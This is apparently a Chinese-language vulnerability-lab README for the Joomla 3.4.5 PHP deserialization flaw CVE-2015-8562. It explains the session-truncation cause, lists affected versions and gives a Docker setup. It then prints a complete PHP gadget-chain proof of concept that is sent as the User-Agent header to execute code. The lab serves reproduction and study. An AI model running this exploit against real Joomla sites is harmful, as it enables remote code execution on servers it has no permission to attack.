



# Joomla 3.4.5 反序列化漏洞（CVE-2015-8562）

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

通过Joomla中的Gadget，可造成任意代码执行的结果。

详情可参考：

 - https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

影响版本

 - Joomla 1.5.x, 2.x, and 3.x before 3.4.6
 - PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 测试环境

启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080/`即可看到Joomla的首页，包含测试数据。

## 漏洞复现

然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：



再用如下脚本生成POC：（[在线运行](https://onlinephp.io/c/e824b)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```



将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：


